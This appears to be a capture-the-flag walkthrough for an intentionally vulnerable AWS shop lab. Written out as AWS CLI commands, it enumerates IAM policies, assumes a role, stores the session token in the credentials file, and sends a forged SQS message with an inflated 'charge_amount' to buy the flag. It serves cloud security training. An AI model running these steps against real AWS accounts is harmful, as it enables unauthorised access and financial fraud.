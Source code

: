 1. The attacker accesses the web page and identifies the features first

[ page ] → what can do

/        → User can buy items.

/receipt → User can see the purchase.

/charge  → User can charge the cash.


2. The attacker checks the privileges it has

    ```bash
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
    # This command will give you the ARN & full name of you user.
    aws --profile [profile_name] sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [polict_name]
    ```

※ Attacker finds that they have assume-role privileges for a particular role.

※ Attacker looks for clues about how to attack using this privilege.


3. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service

※ The website has a github address exposed as an annotation.

→ https://github.com/BoB12-C-G-V/FLAG-Shop

< Code Analysis Results >
- When charging the cash, a message is sent to the SQS service.
- The lambda function does not verify the received message.
- The message format is `{"charge_amount" : cash}`

※ Attacker plans to forge the cache and send message to the SQS service.


4. Assume the the sending message role about SQS service
    
    ```bash
    # This command will get you credentials for the role that can send message to SQS service
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials 
    aws configure --profile [assumed_profile_name]
    # This command will appends the obtained session token to the ~/.aws/credentials file
    echo "aws_session_token = {token}" >> ~/.aws/credentials
    ```


5. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue
    
    ```bash
    # This command wil get you queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    # This command wil sends a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```


6. Check the changed assets, purchase FLAG and check the secret-string

